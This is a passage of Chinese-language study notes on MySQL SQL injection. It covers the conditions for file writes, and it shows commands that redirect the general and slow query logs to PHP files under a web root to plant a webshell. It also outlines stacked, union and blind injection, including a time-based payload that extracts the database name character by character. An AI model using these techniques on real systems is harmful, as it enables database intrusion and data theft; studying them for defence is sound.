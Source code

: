 限制：

- `secure-file-priv`无值或为可利用的目录
- 需知道目标目录的绝对目录地址
- 目标目录可写，mysql的权限足够。

#### 通过日志写文件

```
mysql> set global general_log_file = '/var/www/html/1.php';
mysql> set global general_log = on;
//慢查询日志
mysql> set global slow_query_log_file='/var/www/html/2.php'
mysql> set global slow_query_log=1;
```





## 注入类型

### 堆叠注入

select 1,2;select 2,3

### union 注入

#### 条件

- Union必须由两条或者两条以上的SELECT语句组成，语句之间使用Union链接。

- **Union中的每个查询必须包含相同数量的列。**

- 列的数据类型必须兼容：

  -兼容指数据库可以隐式转换类型A到类型B，例如：

  - int -> double

  - int -> varchar

### 盲注

#### bool 盲注





#### 时间盲注

##### **MySQL** **时间盲注**


- BENCHMARK

- 笛卡尔积

  - If (ascii(substr((select database()),%d,1))<%d,(SELECT count(*) FROM information_schema.columns A, information_schema.columns B,information_schema.tables C),1)#
